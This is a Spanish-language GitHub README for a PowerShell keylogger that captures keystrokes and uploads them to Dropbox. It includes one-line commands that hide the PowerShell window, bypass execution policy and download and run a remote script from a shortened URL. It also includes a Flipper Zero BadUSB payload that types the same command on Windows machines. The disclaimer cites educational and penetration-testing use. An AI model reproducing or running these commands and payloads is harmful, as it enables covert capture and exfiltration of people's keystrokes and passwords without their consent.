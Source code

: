 
---

# PowerShell Keylogger con Subida a Dropbox

Este script está diseñado para capturar las pulsaciones de teclas (keylogger) y subir los datos capturados a Dropbox. Además, incluye una funcionalidad para detener la ejecución automáticamente cuando se detecta un archivo de señalización (`stop.txt`) en la carpeta temporal del usuario.

## Características

- **Captura de Pulsaciones de Teclas**: Monitorea las pulsaciones de teclas y captura caracteres legibles, incluyendo teclas especiales como `[BKSP]`, `[ENT]` y `[ESC]`.
- **Subida a Dropbox**: Sube los datos a Dropbox utilizando un token de acceso proporcionado dinámicamente.
- **Detección y Detención Automática**: El script se detiene automáticamente cuando se detecta un archivo `stop.txt` en la carpeta temporal del usuario.
- **Ejecución Oculta**: El script se ejecuta en segundo plano sin mostrar una ventana de PowerShell.
- **Ejecución desde Flipper Zero**: Puedes ejecutar el script directamente desde Flipper Zero para facilitar su uso en entornos físicos.

## Requisitos

- **PowerShell 5.0 o superior**
- **Una cuenta de Dropbox**
- **Token de acceso de Dropbox**

## Instalación

### Método 1: Ejecutar en PowerShell

1. **Clona el Repositorio**:

   ```bash
   https://github.com/dolaraso/flipper-atack.git
   cd flipper-atack.git
   ```

2. **Guardar el Script**:

   Guarda el script proporcionado como `keylogger.ps1` en tu máquina.

3. **Configura el Token de Dropbox**:

   Asegúrate de colocar tu token de acceso de Dropbox en el siguiente fragmento del script:

   ```powershell
   $db = "TU_TOKEN_DE_ACCESSO_DROPBOX"  # Reemplaza con tu token de acceso real
   ```

4. **Ejecutar el Script**:

   Ejecuta el siguiente comando en PowerShell para iniciar el script:

   ```powershell
   powershell -w h -NoP -Ep Bypass $db='TU_TOKEN_DE_ACCESSO_DROPBOX';irm https://n9.cl/mrflipper5 | iex
   ```

   Este comando ejecutará el script en segundo plano (`-w h`), desactivando restricciones de política de ejecución (`-NoP -Ep Bypass`), y cargará el script desde la URL proporcionada, utilizando el token de Dropbox que especificaste.

### Método 2: Ejecutar desde Flipper Zero

1. **Cargar el Script en Flipper Zero**:

   Utiliza el siguiente script en Flipper Zero para ejecutar el keylogger directamente desde el dispositivo:

   ```flipper
   REM     Title: Keylogger Dropbox
   REM     Author: mr.flippermen
   REM     Description: Este script está diseñado para capturar pulsaciones de teclas (keylogger) y subir los datos capturados a Dropbox
   REM     Target: Windows 10, 11

   GUI r
   DELAY 500
   STRING powershell -w h -NoP -Ep Bypass $dc='';$db='';irm https://n9.cl/mrflipper5 | iex
   ENTER
   ```

   Este código abrirá PowerShell, configurará los parámetros necesarios y ejecutará el script desde una URL externa.

## Detener la Ejecución del Script

Para detener el script de manera segura, simplemente crea un archivo `stop.txt` en la carpeta temporal del usuario. El script verificará la existencia de este archivo y se detendrá si lo encuentra.

### Crear el archivo `stop.txt`:

Para crear el archivo `stop.txt`, usa el siguiente comando en PowerShell:

```powershell
New-Item -Path "$env:TEMP\stop.txt" -ItemType File
```

### Eliminar el archivo `stop.txt`:

Si deseas eliminar el archivo de señalización y reiniciar el script, usa este comando:

```powershell
Remove-Item -Path "$env:TEMP\stop.txt" -Force
```

## Detalles del Script

### Keylogger

Este script realiza los siguientes pasos:

1. Captura las pulsaciones de teclas del sistema, incluyendo teclas especiales como `[BKSP]`, `[ENT]`, y `[ESC]`.
2. Almacena los datos capturados en una variable.
3. Envia los datos a Dropbox con un nombre de archivo basado en la fecha y hora actual.
4. Monitorea la carpeta temporal del usuario y se detiene automáticamente si encuentra un archivo `stop.txt`.

### Dropbox-Upload

Esta función realiza los siguientes pasos:

1. Toma el contenido de las pulsaciones de teclas como parámetro.
2. Define los encabezados y parámetros necesarios para la solicitud a la API de Dropbox.
3. Usa `Invoke-RestMethod` para subir los datos a Dropbox.

## Notas

- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para almacenar los datos subidos.
- El script debe ejecutarse con permisos de administrador para capturar las pulsaciones de teclas.
- Recuerda que el script puede ejecutarse también desde un Flipper Zero, lo que facilita su uso en entornos controlados o pruebas de penetración.

## Licencia

Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo `LICENSE` para más detalles.

---

🚨 **Descargo de Responsabilidad:**

El uso de este repositorio y los scripts contenidos en él es responsabilidad exclusiva del usuario. El autor de este proyecto no se hace responsable de cualquier daño, perjuicio o actividad ilegal que resulte del uso de estos scripts en entornos no autorizados o no controlados. Este proyecto debe ser utilizado únicamente con fines educativos y en entornos de pruebas con permisos explícitos. El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables.

---
